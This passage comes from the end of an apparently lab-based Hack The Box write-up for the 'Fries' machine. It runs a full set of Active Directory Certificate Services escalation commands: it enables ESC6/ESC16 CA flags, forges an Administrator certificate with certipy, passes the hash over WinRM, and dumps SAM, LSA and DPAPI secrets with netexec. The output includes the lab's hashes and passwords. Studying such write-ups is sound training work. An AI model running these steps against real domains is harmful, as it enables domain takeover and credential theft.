*Evil-WinRM* PS C:\Users\gMSA_CA_prod$\Documents> $CA = New-Object -ComObject CertificateAuthority.Admin;$Config = "DC01.fries.htb\fries-DC01-CA";$newFlags = 0x11014e -bor 0x40000;$CA.SetConfigEntry($Config, "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy", "EditFlags", $newFlags)
```

We restarted the service again.

```cmd
*Evil-WinRM* PS C:\Users\gMSA_CA_prod$\Documents> Restart-Service CertSvc
```

With both `ESC16` and `ESC6` configured we requested a certificate for the `Administrator` account by specifying their `UPN` and `SID` in the request.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Fries/files]
└─$ certipy-ad req -u 'svc_infra@fries.htb' -p 'm6tneOMAh5p0wQ0d' -dc-ip 10.129.11.4 -ca 'fries-DC01-CA' -template 'User' -upn 'administrator@fries.htb' -sid 'S-1-5-21-858338346-3861030516-3975240472-500'
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 46
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@fries.htb'
[*] Certificate object SID is 'S-1-5-21-858338346-3861030516-3975240472-500'
[*] Saving certificate and private key to 'administrator.pfx'
File 'administrator.pfx' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote certificate and private key to 'administrator.pfx'
```

Using the certificate we authenticated and retrieved the `NT Hash` for the `Administrator` account.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Fries/files]
└─$ certipy-ad auth -pfx 'administrator.pfx' -dc-ip 10.129.11.4                                                                                                                                             
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@fries.htb'
[*]     SAN URL SID: 'S-1-5-21-858338346-3861030516-3975240472-500'
[*] Using principal: 'administrator@fries.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@fries.htb': aad3b435b51404eeaad3b435b51404ee:a773cb05d79273299a684a23ede56748
```

| Hash                             |
| -------------------------------- |
| a773cb05d79273299a684a23ede56748 |

Finally we used the `NT Hash` to authenticate as `Administrator` via `WinRM`.

```shell
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.129.11.4 -u 'Administrator' -H a773cb05d79273299a684a23ede56748  
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

## user.txt

```cmd
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type user.txt
34e869f84240e884bbc93a5801f8f87e
```

## root.txt

```cmd
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
cc7827790af54d224db9df9c249946ed
```

## Post Exploitation

For `Post Exploitation` we dumped the `SAM`, `LSA Secrets`, and `DPAPI` credentials from the `Domain Controller`.

```shell
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.11.4 -u 'Administrator' -H a773cb05d79273299a684a23ede56748 --sam --lsa --dpapi
SMB         10.129.11.4     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:fries.htb) (signing:True) (SMBv1:False) 
SMB         10.129.11.4     445    DC01             [+] fries.htb\Administrator:a773cb05d79273299a684a23ede56748 (Pwn3d!)
SMB         10.129.11.4     445    DC01             [*] Dumping SAM hashes
SMB         10.129.11.4     445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:a773cb05d79273299a684a23ede56748:::
SMB         10.129.11.4     445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.11.4     445    DC01             DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[21:13:42] ERROR    SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.                                                                                                                                                                                                                                                                                                 regsecrets.py:436
SMB         10.129.11.4     445    DC01             [+] Added 3 SAM hashes to the database
SMB         10.129.11.4     445    DC01             [+] Dumping LSA secrets
SMB         10.129.11.4     445    DC01             FRIES\DC01$:aes256-cts-hmac-sha1-96:527b23aa1d7843b4395fa230a2a82d8ff832ef3ce4d1c7353e07afbf7c0eaf9b
SMB         10.129.11.4     445    DC01             FRIES\DC01$:aes128-cts-hmac-sha1-96:d099bfdc66902ba48478afd138713802
SMB         10.129.11.4     445    DC01             FRIES\DC01$:des-cbc-md5:7acd8aba20548001
SMB         10.129.11.4     445    DC01             FRIES\DC01$:plain_password_hex:e86c16dfd5d02641d95cb0a586e02a7a27a8704c694704b1453cb8b846b2fef9fefa601283b2c486a3719525644ce338e43fd1d551e85064b65914e1fd9844769ceefccd915e4136686c9892e05958991e11ee56b8b3ff242da97394d875a509614923e0de6a3ec3f4e3b6fae7f7618e72b216c7d8964aa515178fc19988bf039b3f10202797d8e487e698e3d6a0384ac14256e077241f7001a43e53cc7c734d30c2e9a97a3db0a4ce7a949b76c292a1238589cc833f6a72575fe6a0c906ba69fa0bdb3d1dd2ff1e18b635b9178f0f9f2f7418cf94279b2eb10ee568ab3bb33e75adde59691cb9e6c5ad07b76f132075
SMB         10.129.11.4     445    DC01             FRIES\DC01$:aad3b435b51404eeaad3b435b51404ee:ba380858b63611eaadb906e8e5b55e3e:::
SMB         10.129.11.4     445    DC01             administrator:vEGXjJswOEpy0bWd
SMB         10.129.11.4     445    DC01             dpapi_machinekey:0x36661c4ae29c5cc6f14e04e11b9917141d0a25d2
dpapi_userkey:0x1a3b6b43a269d3f3861eafed3df2f372bbbdfea5
SMB         10.129.11.4     445    DC01             [+] Dumped 7 LSA secrets to /home/kali/.nxc/logs/lsa/DC01_10.129.11.4_2025-11-23_211339.secrets and /home/kali/.nxc/logs/lsa/DC01_10.129.11.4_2025-11-23_211339.cached
SMB         10.129.11.4     445    DC01             [+] User is Domain Administrator, exporting domain backupkey...
SMB         10.129.11.4     445    DC01             [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         10.129.11.4     445    DC01             [+] Got 7 decrypted masterkeys. Looting secrets...
SMB         10.129.11.4     445    DC01             [SYSTEM][CREDENTIAL] Domain:batch=TaskScheduler:Task:{1037B19F-E18D-4B90-BA9E-DA06825AC127} - FRIES\Administrator:vEGXjJswOEpy0bWd
```
